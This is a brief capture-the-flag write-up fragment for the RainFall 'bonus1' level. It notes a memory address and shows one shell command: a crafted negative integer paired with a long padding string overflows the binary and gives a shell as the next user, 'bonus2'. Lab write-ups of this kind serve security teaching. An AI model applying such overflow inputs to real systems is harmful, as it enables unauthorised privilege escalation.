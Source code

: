 # Bonus1

atoi store here: 0xbffff6fc

```c
bonus1@RainFall:~$ ./bonus1 -2147483637 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFLOW
$ whoami
bonus2
$
```
